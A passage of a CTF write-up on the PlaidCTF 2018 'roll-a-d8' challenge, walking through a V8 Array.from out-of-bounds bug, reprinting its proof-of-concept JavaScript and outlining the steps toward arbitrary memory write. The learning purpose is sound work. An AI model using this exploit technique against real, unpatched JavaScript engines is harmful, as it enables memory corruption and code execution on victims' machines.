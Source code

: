 # PCTF2018: Roll-a-d8

## Intro

Last year I participated in the Plaid CTF and encountered a challenge called roll-a-d8. It was a challenge to acheive RCE by exploiting a v8 javascript engine. In the challenge there was this hint: https://bugs.chromium.org/p/chromium/issues/detail?id=821137

Also there were some patches made to the sandbox that didn't allow us to use some builtin functions such as print. I couldn't solve the challenge during the CTF because I didn't know anything about binary exploitation back then. A year later I am revisiting it.

## Vulnerability

If you go into the link there is a detailed description about the bug. There is also a PoC. Executing the PoC causes a segmentation fault. Let's take a look at it.

```
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    max : 1024 * 1024 * 8,
    next() {
      let result = this.counter++;
      if (this.counter == this.max) {
        oobArray.length = 0;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

I am not really good at javascript so at first I was wondering what it was supposed to be doing. First let's separate the code into parts.

First, what is the method `Array.from.call()` supposed to do? After searching some API documentation I found out two things: `Array.prototype.from()` and `Function.prototype.call()`. Basically `Function.prototpye.call(this,args)` is equal to `Function(args)`. `Array.prototype.from(iterator)` converts the iterator into an array. It is similar to `list()` in python, where a string or tuple can be easily converted into python lists.

Let's format the code so that it is easier to see how the exploit is done.

```
let oobArray = [];

let maliciousIterator = {[Symbol.iterator] : _ => (
  {
    counter : 0,
    max : 1024 * 1024 * 8,
    next() {
      let result = this.counter++;
      if (this.counter == this.max) {
        oobArray.length = 0;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) }

Array.from.call(function() { return oobArray }, maliciousIterator);
oobArray[oobArray.length - 1] = 0x41414141;
```

Basically an array is created using the `Array.prototype.from(iterator)` where the iterator is crafted wisely so that it messes up the array.

How is the iterator crafted?

```
let maliciousIterator = {[Symbol.iterator] : _ => (
  {
    counter : 0,
    max : 1024 * 1024 * 8,
    next() {
      let result = this.counter++;
      if (this.counter == this.max) {
        oobArray.length = 0;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) }
```

It basically iterates from 0 to `2**23` and at the last iteration step it changes the oobArray's length to 0. Intuitively this would create an array with a length 0 buffer but with size marked to `2**23`.

Now how can we exploit this OOB bug? I used this useful blog entry as reference: https://bpsecblog.wordpress.com/2017/04/27/javascript_engine_array_oob/

Acoording to it the steps to exploiting an OOB is:

```
1. Create an OOBArray
2. Leak the address of a UINT32 Array using the OOBArray
3. Using the OOBArray trigger OOB on the newly created UINT32 Array.
4. Find target address
5. Overwrite the target
```

